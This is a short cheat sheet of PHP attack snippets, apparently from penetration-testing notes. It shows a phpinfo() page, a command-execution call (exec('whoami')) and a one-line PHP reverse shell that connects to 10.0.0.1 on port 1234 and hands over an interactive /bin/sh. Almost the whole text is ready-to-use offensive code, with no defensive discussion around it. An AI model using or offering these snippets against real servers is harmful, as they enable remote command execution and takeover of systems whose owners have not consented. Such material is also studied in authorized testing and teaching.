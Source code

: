 show php info page

```php
<?php

phpinfo();

?>
```

run commands via php

```php
<?php
    
echo exec('whoami');

?>
```

reverse shell

```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```